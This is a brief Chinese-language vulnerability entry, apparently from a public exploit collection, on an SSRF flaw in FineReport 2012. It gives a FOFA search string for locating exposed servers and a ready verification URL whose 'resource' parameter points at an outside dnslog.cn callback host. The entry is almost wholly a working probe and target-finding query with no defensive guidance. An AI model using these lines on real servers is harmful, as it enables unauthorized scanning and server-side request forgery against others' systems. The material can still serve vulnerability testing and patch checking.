

# 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

```
帆软报表 2012
```

## FOFA

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

漏洞验证Url为

```plain
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```



